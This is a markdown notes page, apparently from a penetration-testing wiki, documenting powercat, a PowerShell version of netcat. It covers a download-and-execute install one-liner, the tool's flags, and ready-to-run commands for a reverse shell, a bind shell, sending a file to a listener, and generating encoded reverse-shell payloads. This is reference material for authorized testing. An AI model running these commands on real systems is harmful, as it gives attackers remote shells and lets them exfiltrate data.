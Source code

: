 ```yaml
---
title : "powercat"
# pre : ' '
description : "Netcat: The powershell version. (Powershell Version 2 and Later Supported)."
date : 2022-09-26T14:49:48+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## powercat

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

## Installation

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

Download the `.ps1` here and execute with the command below.

{{%attachments title="Related files" fa_icon_class="fas fa-terminal" pattern=".*(ps1)"/%}}

```plain
. .\powercat.ps1
```

Or invoke directly with `iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`

## Usage

```plain
powercat [-c or -l] [-p port] [options]
```

## Flags

```plain
  -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                  If you are using -dns, specify the DNS Server to send queries to.

  -l              Listen Mode. Start a listener on the port specified by -p.

  -p  <port>      Port. The port to connect to, or the port to listen on.

  -e  <proc>      Execute. Specify the name of the process to start.

  -ep             Execute Powershell. Start a pseudo powershell session. You can
                  declare variables and execute commands, but if you try to enter
                  another shell (nslookup, netsh, cmd, etc.) the shell will hang.

  -r  <str>       Relay. Used for relaying network traffic between two nodes.
                  Client Relay Format:   -r <protocol>:<ip addr>:<port>
                  Listener Relay Format: -r <protocol>:<port>
                  DNSCat2 Relay Format:  -r dns:<dns server>:<dns port>:<domain>

  -u              UDP Mode. Send traffic over UDP. Because it's UDP, the client
                  must send data before the server can respond.

  -dns  <domain>  DNS Mode. Send traffic over the dnscat2 dns covert channel.
                  Specify the dns server to -c, the dns port to -p, and specify the
                  domain to this option, -dns. This is only a client.
                  Get the server here: https://github.com/iagox86/dnscat2

  -dnsft <int>    DNS Failure Threshold. This is how many bad packets the client can
                  recieve before exiting. Set to zero when receiving files, and set high
                  for more stability over the internet.

  -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                  connecting. Default: 60

  -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                  established. Used for moving files. You can provide the path to a file,
                  a byte array object, or a string. You can also pipe any of those into
                  powercat, like 'aaaaaa' | powercat -c 10.1.1.1 -p 80

  -o  <type>      Output. Specify how powercat should return information to the console.
                  Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.

  -of <path>      Output File.  Specify the path to a file to write output to.

  -d              Disconnect. powercat will disconnect after the connection is established
                  and the input from -i is sent. Used for scanning.

  -rep            Repeater. powercat will continually restart after it is disconnected.
                  Used for setting up a persistent server.

  -g              Generate Payload.  Returns a script as a string which will execute the
                  powercat with the options you have specified. -i, -d, and -rep will not
                  be incorporated.

  -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                  can be executed in this way: powershell -E <encoded string>

  -h              Print this help message.
```

## Examples

#### Send a file to receiver

* Receiver: `nc -nlvp 443 > out.txt`

```plain
powercat -c 10.0.0.20 -p 443 -i .\testfile.txt
```

### Shells (reverse/bind)

#### Reverse shell

* Receiver: `nc -nlvp 443`
* `-e` - specifies the application that is executed once connected

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe
```

#### Bind shell

* `-l` - specifies powercat to create a listener
* `-e` - specifies the application that is executed once connected

```plain
powercat -l -p 443 -e cmd.exe
```

Once a connection is received (`nc <ip> 443`) the bind shell will be initiated.

### Payload Generation

#### Standalone payloads

* Non-encoded

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -g > reverse-shell.ps1
```

* Encoded (run with `powershell.exe -E`)

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -ge > reverse-shell.ps1
```

## URL List

* [Github.com - powercat](https://github.com/besimorhino/powercat)
